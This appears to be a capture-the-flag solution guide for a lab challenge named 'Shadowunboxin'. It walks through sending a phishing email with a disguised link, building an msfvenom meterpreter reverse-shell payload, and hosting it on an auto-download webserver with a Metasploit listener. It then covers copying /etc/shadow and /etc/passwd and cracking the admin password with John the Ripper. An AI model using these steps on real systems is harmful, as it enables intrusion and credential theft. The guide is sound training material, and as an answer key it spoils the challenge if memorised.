






# Shadowunboxin

*Solution Guide*

## Overview

In *Shadowunboxin*, players perform a series of exploitations and cracking to answer the challenge questions.

## Question 1

*What is the value found inside token1.txt on the target machine? (/home/user/token1.txt)*

Use the network mail server to exploit the user machine with a phishing email.

1. From your Kali system, browse to `https://mail.merch.codes` and log in using the provided credentials for `customer@merch.codes`. 

2. Compose your phishing email to `user@merch.codes`. Include the hyperlink to `http://order15887.pdf` that appears like a filename.



3. You can send the email immediately and trigger the grading check later, or wait to send the email until the webserver and listener are set up and running. We recommend sending immediately so you do not wait for the mail server to receive it later in the challenge.

4. Create the payload you would like to host on the webserver. Your IP and port could differ as long as you configure the machine as needed. Do not use port 80 with `10.5.5.138` because this is where your webserver is hosted.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.5.5.138 LPORT=8080 -f elf > payload.elf
```



5. Set up a simple Python HTTP server to host a payload using a malicious html template to autorun upon access.

6. Download the provided Python webserver template from: `https://challenge.us/files`.

7. Modify the template to point to the location of the payload you created. In our case, `/home/user/`.



8. Run the webserver with `sudo python3 webserver.py`.



You can test the webserver and page by browsing to it locally. You can do so by opening a browser and heading to `http://10.5.5.138`. Doing so should automatically download your payload file to the **Downloads** folder--if you set up everything properly.

Finally, set up a Metasploit listener to match the payload.

9. From a terminal, run `msfconsole`. Then, use the following parameters (or modify according to the payload you created):

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.5.5.138
set LPORT 8080
set ExitOnSession false
exploit -j
```

10. Grade the challenge at `https://challenge.us`. Click **Grade Challenge**. The grading check provides different notifications depending on the state of your environment:

- If no emails are found addressed to `user@merch.codes`, you will be notified.
- If the emails to `user@merch.codes` are not coming from `customer@merch.codes`, you will be notified.
- If the emails meet the above conditions, but do not contain a viable link to `http://order15887.pdf`, you will be notified.
- If *all* the above conditions are met, the grading check will trigger a script on the `user` system that downloads and executes your payload file for 30 seconds. If this does not result in a connection, verify your payload and listener are set up properly. Try the grading check again when the 30-second timeout ends. No need to resend the email if you received this message because the email has already been validated.

11. Once you have a session in the Meterpreter terminal, type `sessions -i 1` to interact with it. 

12. You will land in the **Downloads** folder for `user`, since that is where the payload was executed.

13. Browse to `/home/user`, view the contents of the directory, and view the **token1.txt** file (`cat token1.txt`).

## Question 2

*What is the value found inside token2.txt.gpg on the target machine?*

1. Still inside your Meterpreter session, search for the **token2** file:

```bash
search -f *token2*
```

The result shows a file in `/home/admin/` called `token2.txt.gpg`. Upon inspection, we can see this is an encrypted file. You know from reading the "Background" in the challenge guide that intelligence reports say  the admin user has a habit of password reuse and poor complexity. 

We will now try cracking the password stored in the `/etc/shadow` file.  After checking the contents of `/etc/pam.d/common-password` we can see that passwords are stored with sha512 encryption. This is vulnerable to tools like John the Ripper combined with wordlists.

2. First, download the `/etc/shadow` and `/etc/passwd` files as well as the token file.



3. Next, combine those files so that John can read them and set John to work. We provided you with a custom wordlist: `wordlist.txt` that you will use. You can download it at `challenge.us/files` 

```bash
unshadow passwd.txt/passwd shadow.txt/shadow > passwords.txt
john --wordlist=/home/user/Downloads/wordlist.txt passwords.txt
```



4. The program runs. After a few minutes the password appears in the results. 

5. Use the password to open the encrypted file: `gpg -d token2.txt.gpg` which displays the answer to Question 2.

## Question 3

*What is the password of the user 'admin'?*

1. Enter the password for user `admin` cracked from the shadow file from the procedure for Question 2.
